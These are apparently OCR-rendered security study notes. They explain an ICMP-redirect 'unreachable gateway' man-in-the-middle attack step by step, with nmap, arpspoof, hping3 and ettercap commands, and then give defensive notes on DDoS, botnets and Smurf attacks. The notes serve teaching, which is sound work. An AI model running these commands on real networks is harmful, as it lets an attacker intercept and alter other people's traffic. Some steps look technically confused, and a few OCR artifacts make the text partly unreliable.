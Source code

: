 ### *Unreachable gateway attack*
The Unreachable gateway attack is essentially a man-in-the-middle (MITM) attack exploiting the ICMP redirect message to manipulate the host's routing table

I have broken down the attack into three steps, including the attacker's machine, and the victim's machine:

**Network Reconnaissance**: The attacker would use tools such as `nmap` to identify active hosts and gateways on the network.
```
nmap -sn 192.168.1.0/24
```

**Gateway Takeover**: The attacker would then need to gain control over the secondary gateway G1. This could involve various techniques, such as exploiting vulnerabilities or using default credentials.

**ARP Spoofing**: Once in control of G1, the attacker might use `arpspoof` to associate their MAC address with the IP address of the legitimate gateway G2 on the victim host's ARP table.
```
arpspoof -i eth0 -t [victim IP] [gateway G2 IP]
```

**ICMP Redirect**: Next, the attacker would send an ICMP redirect message to the source host, telling it to use G1 as the gateway for the destination host.
```
iptables -A OUTPUT -p icmp --icmp-type redirect -j ACCEPT
echo 1 > /proc/sys/net/ipv4/conf/all/accept_redirects
hping3 --icmp --icmptype redirect --icmp-gw [G1 IP] -a [G2 IP] [victim IP]
```

**Man-in-the-Middle**: With traffic now routed through G1, the attacker can use `ettercap` to perform the MITM attack, reading, modifying, and forwarding the traffi- [ ] C. 
```
ettercap -T -M arp:remote / [victim IP] // / [gateway G2 IP] //
```
### *DoS & DDoS*
A major indicator of a DDoS attack is a significant spike in network traffi- [ ] C.  This is caused by a large number of bots simultaneously sending traffic to overwhelm the network. Such spikes should always be treated with suspicion. An IDS (Intrusion Detection System) will alert for these attacks and can stop them getting larger and it may also stop them in the first place. 

Smaller organizations can utilize DDoS mitigation features integrated into their load balancers, such as the TCP SYN cookie option. This feature allows the load balancer to respond when SYN requests reach a certain threshold, by dropping requests once the SYN queue is full, thus helping to prevent potential DDoS attacks.

**Botnets**
1. A botnet master distributes malware that turns computers into bots.
2. These bots connect to a hacker-controlled server for instructions.
3. When commanded by this server, the bots launch a synchronized attack.

**Smurf**
This is a DoS attack that floods the victim with spoofed broadcast ping messages.

The attacker spoofs the target's IP and sends many pings to broadcast addresses. This causes all network devices to reply at once, overwhelming the network, especially if routers aren't set to limit this traffic. 
